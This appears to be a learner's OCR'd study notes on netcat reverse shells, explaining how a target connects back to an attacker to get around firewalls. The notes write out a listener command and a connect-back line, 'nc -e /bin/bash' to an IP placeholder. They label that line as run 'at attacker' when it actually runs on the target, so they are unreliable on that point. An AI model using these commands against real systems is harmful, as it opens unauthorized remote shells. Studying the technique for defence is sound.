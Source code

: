 -> target computer -> network swiss army knife 
-> outside of home network 
-> remote access to the computer 
-> Target connects to us - instead of we connecting to target . to bypass firewall (protects the network )
-> why firewall blocks anything that going in through it . but allows anything going out of it 
-> nc - ie: netcat , need in both device 
things are bit backwords as reverse shell 
-> we need to listen - the conncetion form target 
CMD - nc -lnvp 87 -s ipadress 
l - listining , n - ip adress , v - verbous , p - port s - source 
at attacker - nc -e /bin/bash ipadress port 
